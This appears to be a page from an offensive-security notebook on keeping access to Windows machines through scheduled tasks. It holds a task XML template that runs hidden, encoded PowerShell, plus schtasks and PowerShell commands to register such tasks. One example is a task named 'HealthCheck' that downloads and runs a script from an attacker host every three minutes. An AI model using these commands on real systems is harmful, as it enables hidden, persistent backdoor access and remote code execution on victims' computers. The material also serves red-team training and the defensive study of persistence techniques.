 # Schedule Tasks

## 01 - Common Files

```
C:\Windows\System32\schtasks.exe
C:\Windows\SysWOW64\schtasks.exe
```

## 02 - Generate Payloads

### 2.1 - Schedule Task Payload

A template script to execute the payload.

TODO: Check which is the day and month in this XML file.

```xml
<Task version="1.4" xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
  <RegistrationInfo>
    <Description>This is a description</Description>
  </RegistrationInfo>
  <Triggers>
    <CalendarTrigger>
      <StartBoundary>yyyy-01-01Thh:mm:ss</StartBoundary>
      <ScheduleByDay>
        <DaysInterval>1</DaysInterval>
      </ScheduleByDay>
    </CalendarTrigger>
  </Triggers>
  <Actions>
    <Exec>
      <Command>powershell.exe</Command>
      <Arguments>-nop -w hidden -enc <base64_encoded></Arguments>
    </Exec>
  </Actions>
</Task>
```

### 2.2 - Export XML Payload

#### 2.2.1 - Command Prompt

```
C:\> schtasks.exe /query /xml /tn "<task_name>" > schedule.xml
```

#### 2.2.2 - PowerShell

```
PS C:\> Export-ScheduledTask "<task_name>" | Out-File -Encoding ascii payload.xml

PS C:\> Export-ScheduledTask "<task_name>" | Out-File -Encoding utf8 payload.xml

PS C:\> Export-ScheduledTask "<task_name>" | Out-File -Encoding unicode payload.xml
```

## 03 - Execute Payloads

### 3.1 - Command Prompt

TODO: Use batch scripting one liner by using environment variables to trigger the payload with time delay such as 3 minutes

```
C:\> schtasks.exe /create /mo 1 /sc minute /tn "<task_name>" /tr "<commands>"
```

Import the XML to schedule the task by executing the payload.

> [!TIP]
> Best to create a script to automate the whole process since it requires time duration in order to trigger it.

```
C:\> schtasks.exe /create /xml /tn "<task_name>" payload.xml
```

### 3.2 - PowerShell

```powershell
PS C:\> $action = New-ScheduledTaskAction -Execute "<command>" -Argument "<arguments>"

$trigger = New-ScheduledTaskTrigger -Once -At (Get-Date) -RepetitionInterval (New-TimeSpan -Minutes 3)
$settings = New-ScheduledTaskSettingsSet -RunOnlyIfNetworkAvailable -StartWhenAvailable -AllowStartIfOnBatteries -DontStopIfGoingOnBatteries
Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "<task_name>"
```

Let's use [[07 - Tactics & Techniques & Procedures Phases/C - Initial Access/0x01 - Weaponization/0xB - Client-Side Attacks/Delivery Methods/Command and Scripting Interpreter/Desktop/Windows/Code Execution/PowerShell/Manual|Manual]] as example.

```powershell
PS C:\> $action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-WindowStyle hidden -c `"IEX (New-Object Net.WebClient).DownloadString('http[s]://<attacker_IP>/payload.ps1')`""

$trigger = New-ScheduledTaskTrigger -Once -At (Get-Date) -RepetitionInterval (New-TimeSpan -Minutes 3)
$settings = New-ScheduledTaskSettingsSet -RunOnlyIfNetworkAvailable -StartWhenAvailable -AllowStartIfOnBatteries -DontStopIfGoingOnBatteries
Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "HealthCheck"
```

Import the XML to schedule the task by executing the payload.

> [!TIP]
> Best to create a script to automate the whole process since it requires time duration in order to trigger it.

```
PS C:\> Register-ScheduledTask -TaskName "<task_name>" -Xml (Get-Content '.\payload.xml' | Out-String) -Force

PS C:\> Register-ScheduledTask -TaskName "<task_name>" -Xml (Get-Content '.\payload.xml' -Raw) -Force
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures Phases/F - Post Exploitation/0x07 - Maintaining Access/Persistence/Windows/Host Persistence/Backdoors/Schedule Tasks/Schtasks/Manual/Living off the Land|Maintaining Access: Schedule Tasks Persistence]]